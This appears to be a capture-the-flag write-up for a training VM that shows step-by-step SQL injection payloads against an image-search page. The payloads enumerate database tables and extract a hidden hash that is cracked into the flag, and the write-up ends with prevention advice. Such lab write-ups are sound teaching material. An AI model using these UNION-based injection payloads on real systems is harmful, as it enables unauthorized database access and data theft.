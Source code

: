 # SQL Injection - Image Search

SQL injection is a type of injection attack. Injection attacks occur when maliciously crafted inputs 
are submitted by an attacker, causing an application to perform an unintended action.


## Exploit

Go to page:

{VM_IP}/index.php?page=searchimg

Insert the following commands into the image search bar:

### Test if vulnerable to SQL Injection

```1 OR 1=1```

We get all the results because every row is considered true.

### Get the table names in the database

```1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.TABLES```

Here we find:

* Title: list_images
* Url : Member_images

### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here find the following table structure:

* Table name: list_images,
column : id

* Table name: list_images,
column : url

* Table name: list_images,
column : title

* Table name: list_images,
column : comment

### Look at the comment below each member's image

```1 OR 1=1 UNION SELECT title, comment FROM Member_images.list_images```

Here we find:

* Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
* Url : Hack me ?

### Hash

[md5_decrypt](https://md5decrypt.net)(1928e8083cf461a51303633093573c46) = albatroz

[sha256](https://md5decrypt.net/Sha256)(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

flag = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## Use

A successful SQL injection attack can:
- read sensitive data from the database, 
- modify database data (insert/update/delete), 
- execute administration operations on the database (such as shutdown the DBMS), 
- recover the content of a given file existing on the DBMS file system or write files into the file system, 
- in some cases, issue commands to the operating system.

## Prevention

- You should always use parameterized statements where available, 
they are your number one protection against SQL injection.
- [Here](https://www.hacksplaining.com/prevention/sql-injection#code-samples) are some code samples in various languages.
- Principle of Least Privilege: applications should ensure that each process or software component can access and affect only the resources it needs. 
Apply “levels of clearance” as appropriate.

